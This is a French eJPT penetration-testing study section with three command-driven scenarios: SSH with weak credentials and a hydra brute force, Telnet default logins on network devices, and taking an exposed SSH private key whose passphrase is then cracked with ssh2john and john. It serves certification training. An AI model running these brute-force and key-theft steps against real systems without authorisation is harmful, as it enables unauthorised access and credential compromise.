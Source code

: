 
## 🎯 4. Cas d'usage spécifiques eJPT

### Scénario 1: SSH avec credentials faibles
```bash
# 1. Découverte SSH
nmap -p22 -sV target

# 2. Test credentials courants AVANT brute force
ssh root@target     # password: root, toor, password
ssh admin@target    # password: admin, password, 123456

# 3. Si échec, brute force prudent
hydra -l root -P common_passwords.txt -t 4 -f ssh://target

# 4. Connexion et énumération
ssh root@target
uname -a && id && sudo -l
```

### Scénario 2: Telnet sur équipement réseau
```bash
# 1. Découverte Telnet
nmap -p23 target

# 2. Test credentials par défaut équipement réseau
telnet target
# Tester: admin/admin, cisco/cisco, admin/password

# 3. Si succès → Énumération équipement
show version
show config
show users
```

### Scénario 3: SSH avec clés privées exposées
```bash
# 1. Recherche de clés privées dans web/FTP
find / -name "*_rsa" -o -name "id_*" 2>/dev/null
wget http://target/backup/id_rsa

# 2. Connexion avec clé
chmod 600 id_rsa
ssh -i id_rsa user@target

# 3. Si clé protégée par passphrase
ssh2john id_rsa > hash.txt
john --wordlist=rockyou.txt hash.txt
```

---
